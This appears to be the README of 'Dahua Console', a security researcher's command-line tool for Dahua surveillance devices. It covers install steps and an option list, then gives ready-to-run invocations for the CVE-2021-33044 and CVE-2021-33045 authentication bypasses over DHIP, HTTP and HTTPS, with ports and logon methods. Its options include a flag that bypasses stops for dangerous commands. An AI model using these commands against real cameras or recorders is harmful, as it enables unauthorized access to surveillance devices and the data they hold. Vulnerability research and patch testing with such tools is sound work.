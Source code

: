 # Dahua Console

- Version: Pre-alpha
- Bugs: Indeed
- TODO: Lots of stuff

[Install requirements]
```text
sudo pip3 install -r requirements.txt
```

[Arguments]
```text
  -h, --help            show this help message and exit
  --rhost RHOST         Remote Target Address (IP/FQDN)
  --rport RPORT         Remote Target Port
  --proto {dhip,dvrip,3des,http,https}
                        Protocol [Default: dvrip]
  --relay RELAY         ssh://<username>:<password>@<host>:<port>
  --auth AUTH           Credentials (username:password) [Default: None]
  --ssl                 Use SSL for remote connection
  -d, --debug           JSON traffic
  -dd, --ddebug         hexdump traffic
  --dump {config,service,device,discover,log,test}
                        Dump remote config
  --dump_argv DUMP_ARGV
                        ARGV to --dump
  --test                test w/o login attempt
  --multihost           Connect hosts from "dhConsole.json"
  --save                Save host hash to "dhConsole.json"
  --events              Subscribe to events [Default: False]
  --discover {dhip,dvrip}
                        Discover local devices
  --logon {wsse,loopback,netkeyboard,onvif:plain,onvif:digest,onvif:onvif,plain,ushield,ldap,ad,cms,local,rtsp,basic,old_digest,gui}
                        Logon types
  -f, --force           Bypass stops for dangerous commands
  --calls               Debug internal calls
```
---
[Release]

[Update]

2021-10-07

Details here: https://github.com/mcw0/PoC/blob/master/Dahua%20authentication%20bypass.txt

2021-10-06


[CVE-2021-33044]

Protocol needed: DHIP or HTTP/HTTPS (DHIP do not work with TLS/SSL @TCP/443)
```text
[proto: dhip, normally using tcp/5000]
./Console.py --logon netkeyboard --rhost 192.168.57.20 --proto dhip --rport 5000

[proto: dhip, usually working with HTTP port as well]
./Console.py --logon netkeyboard --rhost 192.168.57.20 --proto dhip --rport 80

[proto: http/https]
./Console.py --logon netkeyboard --rhost 192.168.57.20 --proto http --rport 80
./Console.py --logon netkeyboard --rhost 192.168.57.20 --proto https --rport 443
```

[CVE-2021-33045]

Protocol needed: DHIP (DHIP do not work with TLS/SSL @TCP/443)
```text
[proto: dhip, normally using tcp/5000]
./Console.py --logon loopback --rhost 192.168.57.20 --proto dhip --rport 5000

[proto: dhip, usually working with HTTP port as well]
./Console.py --logon loopback --rhost 192.168.57.20 --proto dhip --rport 80
```
---

